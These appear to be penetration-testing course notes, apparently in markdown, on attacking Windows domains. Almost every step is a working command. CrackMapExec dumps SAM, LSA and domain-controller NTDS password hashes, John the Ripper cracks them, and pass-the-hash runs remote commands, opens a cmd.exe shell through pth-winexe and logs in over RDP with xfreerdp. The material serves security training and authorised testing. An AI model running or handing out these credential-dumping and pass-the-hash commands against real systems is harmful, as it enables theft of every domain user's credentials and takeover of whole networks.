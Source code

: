 NEED LOCAL ADMIN ACCESS TO WORK!

> Password hashes are found in:     C:\Windows\System32\config

```bash - kali
crackmapexec smb $TARGET -u $USER -p $PASSWORD --sam
```

Use these to Pass The Hash!

####  19 SwisArmy Dumping LSA + PTH with CME

Try dumping the DOMAIN hashes:
```bash - kali
crackmapexec smb $TARGET -u $USER -p $PASSWORD --lsa
```

```bash - kali
john --format=NT /home/kali/.cme/logs/*.sam --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash - kali
john --format=NT /home/kali/.cme/logs/*.sam --show
```

>View the contest of /home/kali/.cme/logs/*.cached:

![[Pasted image 20220412160626.png]]

Copy one of the hash values as seen above to attempt PTH.

```bash - kali
crackmapexec smb $TARGET -u $USER -H $HASH -X 'whoami'
```

If the user is a Domain Admin, we can do a ntds dump against the **domain controller**:

>NTDS is the database that contains all the NTLM hashes for all the users in the entire domain.

```bash - kali
crackmapexec smb $DOMAIN_CONTROLLER_IP -u $USER -H $HASH --ntds
```

>Results are stored in /home/kali/.cme/logs/*.ntds

Find command to cut out users > users.txt and hashes > hashes.txt

Tested with whole has vs only 2nd half, both seemed to work!

```bash - kali
crackmapexec smb $DOMAIN_CONTROLLER_IP -u $USER -H $HASH -X 'hostname;whoami;ipconfig'
```

#### 19 SwisArmy pth winexe and xfreerdp

In this example, we did use both parts of the hash to pass:
```bash - kali
sudo pth-winexe -U $USER%$HASH //$TARGET cmd.exe
```

```bash - kali
xfreerdp /u:$USER /pth:$HASH /d:<DOMAIN> /v:$TARGET
```
